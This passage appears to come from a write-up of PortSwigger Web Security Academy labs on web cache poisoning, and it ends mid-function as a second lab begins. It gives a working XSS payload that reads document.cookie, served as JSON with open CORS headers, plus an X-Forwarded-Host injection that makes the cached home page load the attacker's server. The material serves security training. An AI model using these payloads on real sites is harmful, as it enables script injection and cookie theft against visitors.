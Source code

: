                 let div = document.createElement("div");
                div.innerHTML = 'Free shipping to ' + j.country;
                geoLocateContent.appendChild(div)
            });
    }

The `jsonUrl` passed into `initGeoLocate` is taken from this script:

    <script>
        data = {"host":"0a5f00ab03e59cb38472281600280027.web-security-academy.net","path":"/"}
    </script>

Notice that, if we can manipulate the `data.host` we can successfully make the `initGeoLocate` get the JSON from our exploit server and inject it to the DOM.

At the exploit server, paste that object to the body and change the headers to allow JSON and CORS:

    Body:

        {
            "country": "<img src=1 onerror=alert(document.cookie)>"
        }

    Header:

        HTTP/1.1 200 OK
        Content-Type: application/json; charset=utf-8
        Access-Control-Allow-Origin: *

Now use `Param Miner` with `Guess Header`, we found that `X-Forwarded-Host` value is reflected into `data.host`. Send a `GET / HTTP/2` with this header to successfully manipulate the `data.host` value:

    X-Forwarded-Host: exploit-0a9f000903fd9ce5846a272b015b001e.exploit-server.net/exploit#

Resend this request, so that the malicious response is cached. Now when the victim visits the home page, he is served with this malicious response.

### LAB: Combining web cache poisoning vulnerabilities
Just like the above lab, this lab also support `X-Forwarded-Host` header and imports JSON from its value.
Look at this function:

    function initTranslations(jsonUrl)
    {
        const lang = document.cookie.split(';')
            .map(c => c.trim().split('='))
            .filter(p => p[0] === 'lang')
            .map(p => p[1])
            .find(() => true);

        const translate = (dict, el) => {
            for (const k in dict) {
                if (el.innerHTML === k) {
                    el.innerHTML = dict[k];
                } else {
                    el.childNodes.forEach(el_ => translate(dict, el_));
                }
            }
        }
